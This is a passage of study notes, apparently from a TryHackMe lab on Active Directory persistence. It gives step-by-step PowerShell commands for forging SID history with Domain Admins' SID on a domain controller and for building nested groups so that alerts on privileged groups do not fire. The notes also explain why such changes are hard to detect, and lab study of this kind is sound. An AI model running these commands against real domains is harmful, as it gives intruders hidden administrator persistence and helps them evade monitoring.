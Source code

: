 			- `Stop-Service -Name ntds -force`
			- `Add-ADDBSidHistory -SamAccountName '<low-priv-username>' -SidHistory '<domain-admins-group-sid>' -DatabasePath C:\Windows\NTDS\ntds.dit`
			- `Start-Service -Name ntds`
		- Check that the forging is done correctly using `Get-ADUser <low-priv-username> -properties sidhistory`.
		- We should also be able to access the DC since we gained Domain Admin privileges `dir \\thmdc.za.tryhackme.loc\c$\`.
	- If you were to `RDP` into one of the hosts and use the AD Users and Groups snap-in, you would be able to view the SID history attribute added to your user. However, even with the highest possible privileges, you would not be able to remove the attribute since it is protected. In order to remove this, you would have to use tools such as the `AD-RSAT` PowerShell cmdlets to remove SID history.
	- However, before you can even think about removing malicious SID history attributes, you first need to find them. None of the regular tools will tell you that something is wrong. That user will not all of a sudden pop up as a member of the Domain Admins group. So unless you are actively filtering through the attributes of your users, this is incredibly hard to find. This is because the SID history is only applied and used once the user authenticates.
- ## *Persistence Through Group Membership*
	- The most privileged account, or group, is not always the best to use for persistence.
	- Privileged groups are monitored more closely for changes than others. Any group that classifies as a protected group, such as Domain Admins or Enterprise Admins, receive additional security scrutiny.
		- The IT Support group can be used to gain privileges such as force changing user passwords. Although, in most cases, we won't be able to reset the passwords of privileged users, having the ability to reset even low-privileged users can allow us to spread to workstations.
		- Groups that provide local administrator rights are often not monitored as closely as protected groups. With local administrator rights to the correct hosts through group membership of a network support group, we may have good persistence that can be used to compromise the domain again.
		- It is not always about direct privileges. Sometimes groups with indirect privileges, such as ownership over Group Policy Objects (GPOs), can be just as good for persistence.
	- #### *Nested Groups*
		- In most organisations, there are a significant amount of recursive groups. A recursive group is a group that is a member of another group.
		- This also becomes a monitoring problem. Let's say, for instance, we have an alert that fires off when a new member is added to the Domain Admins group. But it won't fire off if a user is added to a subgroup within the Domain Admins group. This is a very common problem since AD is managed by the AD team, and alerting and monitoring are managed by the InfoSec team. All we need is a little bit of miscommunication, and the alert is no longer valid since subgroups are used.
		- As an attacker, we can leverage this reduced visibility to perform persistence. Instead of targeting the privileged groups that would provide us with access to the environment, we focus our attention on the subgroups instead.
		- **Steps**
			- Create a base group that we will hide in the People &rarr; IT OU `New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security`.
			- Create a another group in the People &rarr; Sales OU and add our previous group as a member `New-ADGroup -Path "OU=Sales,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"`
			- We can do this a couple of more times
				- `New-ADGroup -Path "OU=Consulting,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 3" -SamAccountName "<username>_nestgroup3" -DisplayName "<username> Nest Group 3" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup3" -Members "<username>_nestgroup2"`
				- `New-ADGroup -Path "OU=Marketing,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 4" -SamAccountName "<username>_nestgroup4" -DisplayName "<username> Nest Group 4" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup4" -Members "<username>_nestgroup3"`
				- `New-ADGroup -Path "OU=IT,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 5" -SamAccountName "<username>_nestgroup5" -DisplayName "<username> Nest Group 5" -GroupScope Global -GroupCategory Security` then `Add-ADGroupMember -Identity "<username>_nestgroup5" -Members "<username>_nestgroup4"`